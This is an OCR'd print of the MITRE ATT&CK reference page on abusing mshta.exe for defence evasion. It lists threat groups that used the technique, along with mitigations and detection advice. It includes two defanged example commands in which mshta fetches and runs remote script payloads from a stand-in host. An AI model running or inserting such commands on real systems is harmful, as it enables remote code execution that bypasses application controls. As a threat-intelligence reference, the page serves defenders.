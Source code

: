 3/22/24, 3:45 PM System Binary Proxy Execution: Mshta, Sub-technique T1218.005 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1218/005/ 1/6Thank you to Tidal Cyber and SOC Prime for becoming ATT&CK's ﬁrst Benefactors. To join the cohort, or learn more about this program visit our
Benefactors page.3/22/24, 3:45 PM System Binary Proxy Execution: Mshta, Sub-technique T1218.005 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1218/005/ 2/6Home>Techniques>Enterprise>System Binary Proxy Execution>Mshta3/22/24, 3:45 PM System Binary Proxy Execution: Mshta, Sub-technique T1218.005 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1218/005/ 3/6System Binary Proxy Execution: Mshta
Adversaries may abuse mshta.exe to proxy execution of malicious .hta ﬁles and Javascript or VBScript through a trusted Windows utility.
There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code 
Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) ﬁles. HTAs are standalone applications that execute using the
same models and technologies of Internet Explorer, but outside of the browser. 
Files may be executed by mshta.exe through an inline script: mshta
vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))
They may also be executed directly from URLs: mshta http[:]//webserver/payload[.]hta
Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of
the Internet Explorer's security context, it also bypasses browser security settings. Other sub-techniques of System Binary Proxy Execution (13)
[1][2][3][4]
[5]
[6]
[7]
[8]
Version PermalinkID: T1218.005
Sub-technique of:  T1218
 
Tactic: Defense Evasion
 
Platforms: Windows
 
Permissions Required: User
 
Defense Bypassed: Application control, Digital Certiﬁcate Validation
Contributors: @ionstorm; Ricardo Dias; Ye Yint Min Thu Htut, Offensive Security Team, DBS Bank
Version: 2.0
Created: 23 January 2020
Last Modiﬁed: 11 March 20223/22/24, 3:45 PM System Binary Proxy Execution: Mshta, Sub-technique T1218.005 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1218/005/ 4/6Procedure Examples
ID Name Description
G0016 APT29 APT29 has use mshta to execute malicious scripts on a compromised host.
G0050 APT32 APT32 has used mshta.exe for code execution.
S0414 BabyShark BabyShark has used mshta.exe to download and execute applications from a remote server.
C0015 C0015 During C0015, the threat actors used mshta to execute DLLs.
G0142 Confucius Confucius has used mshta.exe to execute malicious VBScript.
G1006 Earth Lusca Earth Lusca has used mshta.exe to load an HTA script within a malicious .LNK ﬁle.
G0046 FIN7 FIN7 has used mshta.exe to execute VBScript to execute malicious code on victim systems.
G0047 Gamaredon Group Gamaredon Group has used mshta.exe to execute malicious HTA ﬁles.
G0100 Inception Inception has used malicious HTA ﬁles to drop and execute malware.
G0094 Kimsuky Kimsuky has used mshta.exe to run malicious scripts on the system.
S0250 Koadic Koadic can use mshta to serve additional payloads and to help schedule tasks for persistence.
G0032 Lazarus Group Lazarus Group has used mshta.exe to execute HTML pages downloaded by initial access
documents.
G0140 LazyScripter LazyScripter has used mshta.exe to execute Koadic stagers.
S0455 Metamorfo Metamorfo has used mshta.exe to execute a HTA payload.
G0069 MuddyWater MuddyWater has used mshta.exe to execute its POWERSTATS payload and to pass a PowerShell one-
liner for execution.
G0129 Mustang Panda Mustang Panda has used mshta.exe to launch collection scripts.
S0228 NanHaiShu NanHaiShu uses mshta.exe to load its program and ﬁles.
C0016 Operation Dust
StormDuring Operation Dust Storm, the threat actors executed JavaScript code via mshta.exe .
S0223 POWERSTATS POWERSTATS can use Mshta.exe to execute additional payloads on compromised hosts.
S0147 Pteranodon Pteranodon can use mshta.exe to execute an HTA ﬁle hosted on a remote server.
S0379 Revenge RAT Revenge RAT uses mshta.exe to run malicious scripts on the system.
S0589 Sibot Sibot has been executed via MSHTA application.
G1008 SideCopy SideCopy has utilized mshta.exe to execute a malicious hta ﬁle.
G0121 Sidewinder Sidewinder has used mshta.exe to execute malicious payloads.
G1018 TA2541 TA2541 has used mshta to execute scripts including VBS.
G0127 TA551 TA551 has used mshta.exe to execute malicious payloads.
S0341 Xbash Xbash can use mshta for executing scripts.[9]
[10][11]
[12]
[13]
[14]
[15]
[5]
[16]
[17]
[18][12][19][20]
[21][22]
[23][24]
[22]
[25]
[26][27]
[28]
[29]
[1]
[26]
[16]
[30]
[31]
[32]
[33][34]
[35]
[36]
[37]3/22/24, 3:45 PM System Binary Proxy Execution: Mshta, Sub-technique T1218.005 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1218/005/ 5/6Mitigations
ID Mitigation Description
M1042 Disable or
Remove Feature
or ProgramMshta.exe may not be necessary within a given environment since its functionality is tied to older
versions of Internet Explorer that have reached end of life.
M1038 Execution
PreventionUse application control conﬁgured to block execution of mshta.exe if it is not required for a given
system or network to prevent potential misuse by adversaries. For example, in Windows 10 and
Windows Server 2016 and above, Windows Defender Application Control (WDAC) policy rules may be
applied to block the mshta.exe application and to prevent abuse.
Detection
ID Data Source Data Component Detects
DS0017 Command Command
ExecutionLook for mshta.exe executing raw or obfuscated script within the command-line.
Compare recent invocations of mshta.exe with prior history of known good arguments
and executed .hta ﬁles to determine anomalous and potentially adversarial activity.
Command arguments used before and after the mshta.exe invocation may also be
useful in determining the origin and purpose of the .hta ﬁle being executed.
DS0022 File File Creation Monitor use of HTA ﬁles. If they are not typically used within an environment then
execution of them may be suspicious
DS0029 Network TraﬃcNetwork
Connection
CreationMonitor for newly constructed network connections that are sent or received by
untrusted hosts.
DS0009 Process Process Creation Use process monitoring to monitor the execution and arguments of mshta.exe.[38]3/22/24, 3:45 PM System Binary Proxy Execution: Mshta, Sub-technique T1218.005 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1218/005/ 6/6References
1. Gross, J. (2016, February 23). Operation Dust Storm. Retrieved
December 22, 2021.
2. McCammon, K. (2015, August 14). Microsoft HTML
Application (HTA) Abuse, Part Deux. Retrieved October 27,
2017.
3. Berry, A., Galang, L., Jiang, G., Leathery, J., Mohandas, R.
(2017, April 11). CVE-2017-0199: In the Wild Attacks
Leveraging HTA Handler. Retrieved October 27, 2017.
4. Dove, A. (2016, March 23). Fileless Malware – A Behavioural
Analysis Of Kovter Persistence. Retrieved December 5, 2017.
5. Carr, N., et al. (2017, April 24). FIN7 Evolution and the Phishing
LNK. Retrieved April 24, 2017.
 . Wikipedia. (2017, October 14). HTML Application. Retrieved
October 27, 2017.
7. Microsoft. (n.d.). HTML Applications. Retrieved October 27,
2017.
 . LOLBAS. (n.d.). Mshta.exe. Retrieved July 31, 2019.
9. ESET. (2022, February). THREAT REPORT T3 2021. Retrieved
February 10, 2022.
10. Dahan, A. (2017, May 24). OPERATION COBALT KITTY: A
LARGE-SCALE APT IN ASIA CARRIED OUT BY THE
OCEANLOTUS GROUP. Retrieved November 5, 2018.
11. Dahan, A. (2017). Operation Cobalt Kitty. Retrieved December
27, 2018.
12. CISA, FBI, CNMF. (2020, October 27). https://us-
cert.cisa.gov/ncas/alerts/aa20-301a. Retrieved November 4,
2020.
13. DFIR Report. (2021, November 29). CONTInuing the Bazar
Ransomware Story. Retrieved September 29, 2022.
14. Lunghi, D and Horejsi, J. (2018, February 13). Deciphering
Confucius: A Look at the Group's Cyberespionage Operations.
Retrieved December 26, 2021.
15. Chen, J., et al. (2022). Delving Deep: An Analysis of Earth
Lusca’s Operations. Retrieved July 1, 2022.
1 . Symantec. (2022, January 31). Shuckworm Continues Cyber-
Espionage Attacks Against Ukraine. Retrieved February 17,
2022.
17. GReAT. (2019, August 12). Recent Cloud Atlas activity.
Retrieved May 8, 2020.
1 . Alyac. (2019, April 3). Kimsuky Organization Steals Operation
Stealth Power. Retrieved August 13, 2019.
19. Crowdstrike. (2020, March 2). 2020 Global Threat Report.
Retrieved December 11, 2020.20. KISA. (n.d.). Phishing Target Reconnaissance and Attack
Resource Analysis Operation Muzabi. Retrieved March 7,
2022.
21. Magius, J., et al. (2017, July 19). Koadic. Retrieved June 18,
2018.
22. Jazi, H. (2021, February). LazyScripter: From Empire to double
RAT. Retrieved November 24, 2021.
23. Saini, A. and Hossein, J. (2022, January 27). North Korea’s
Lazarus APT leverages Windows Update client, GitHub in
latest campaign. Retrieved January 27, 2022.
24. Pradhan, A. (2022, February 8). LolZarus: Lazarus Group
Incorporating Lolbins into Campaigns. Retrieved March 22,
2022.
25. Sierra, E., Iglesias, G.. (2018, April 24). Metamorfo Campaigns
Targeting Brazilian Users. Retrieved July 30, 2020.
2 . Singh, S. et al.. (2018, March 13). Iranian Threat Group
Updates Tactics, Techniques and Procedures in Spear
Phishing Campaign. Retrieved April 11, 2018.
27. Kaspersky Lab's Global Research & Analysis Team. (2018,
October 10). MuddyWater expands operations. Retrieved
November 2, 2018.
2 . Counter Threat Unit Research Team. (2019, December 29).
BRONZE PRESIDENT Targets NGOs. Retrieved April 13, 2021.
29. F-Secure Labs. (2016, July). NANHAISHU RATing the South
China Sea. Retrieved July 6, 2018.
30. Gannon, M. (2019, February 11). With Upgrades in Delivery
and Support Infrastructure, Revenge RAT Malware is a Bigger
Threat. Retrieved May 1, 2019.
31. Naﬁsi, R., Lelli, A. (2021, March 4). GoldMax, GoldFinder, and
Sibot: Analyzing NOBELIUM’s layered persistence. Retrieved
March 8, 2021.
32. Threat Intelligence Team. (2021, December 2). SideCopy APT:
Connecting lures victims, payloads to infrastructure. Retrieved
June 13, 2022.
33. Rewterz. (2020, April 20). Sidewinder APT Group Campaign
Analysis. Retrieved January 29, 2021.
34. Rewterz. (2020, June 22). Analysis on Sidewinder APT Group
– COVID-19. Retrieved January 29, 2021.
35. Ventura, V. (2021, September 16). Operation Layover: How we
tracked an attack on the aviation industry to ﬁve years of
compromise. Retrieved September 15, 2023.
3 . Duncan, B. (2021, January 7). TA551: Email Attack Campaign
Switches from Valak to IcedID. Retrieved March 17, 2021.
37. Xiao, C. (2018, September 17). Xbash Combines Botnet,
Ransomware, Coinmining in Worm that Targets Linux and
Windows. Retrieved November 14, 2018.
3 . Coulter, D. et al.. (2019, April 9). Microsoft recommended block
rules. Retrieved August 12, 2021.